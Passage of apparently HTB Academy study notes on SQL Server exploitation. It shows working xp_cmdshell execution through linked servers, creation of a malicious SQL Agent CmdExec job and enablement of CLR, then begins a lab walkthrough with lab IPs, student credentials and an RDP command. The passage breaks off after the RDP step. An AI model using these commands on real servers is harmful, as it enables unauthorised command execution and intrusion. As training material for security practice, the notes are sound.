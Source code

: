 ### **Advanced SQL Server Exploitation**

#### **Linked Server Exploitation**
```sql
-- Execute commands on linked server
EXEC ('xp_cmdshell ''whoami''') AT [LinkedServerName];

-- Double-hop through multiple linked servers
EXEC ('EXEC (''xp_cmdshell ''''whoami''''''') AT [SecondServer]') AT [FirstServer];
```

#### **SQL Server Agent Jobs**
```sql
-- Create malicious job (requires sysadmin)
USE msdb;
EXEC dbo.sp_add_job @job_name = 'Evil Job';
EXEC dbo.sp_add_jobstep 
    @job_name = 'Evil Job',
    @step_name = 'Evil Step',
    @command = 'whoami > C:\temp\output.txt',
    @subsystem = 'CmdExec';
EXEC dbo.sp_start_job @job_name = 'Evil Job';
```

#### **CLR Integration Abuse**
```sql
-- Enable CLR integration (requires sysadmin)
sp_configure 'clr enabled', 1;
RECONFIGURE;

-- Create and execute CLR assembly for advanced payloads
-- (Complex technique requiring custom CLR code)
```

---

## 🎯 **HTB Academy Lab Solutions**

### **Lab Environment Details**
- **Target IP**: `10.129.149.107`
- **RDP Credentials**: `htb-student:Academy_student_AD!`
- **Linux Attack Host**: `172.16.5.225` (SSH: `htb-student:HTB_@cademy_stdnt!`)

### **🔍 Question 1: "What other user in the domain has CanPSRemote rights to a host?"**

#### **Solution Steps:**

**1. RDP Connection:**
```bash
xfreerdp /v:10.129.149.107 /u:htb-student /p:Academy_student_AD!
# Click "OK" on Computer Access Policy prompt
# Close Server Manager
# Run PowerShell as Administrator
```
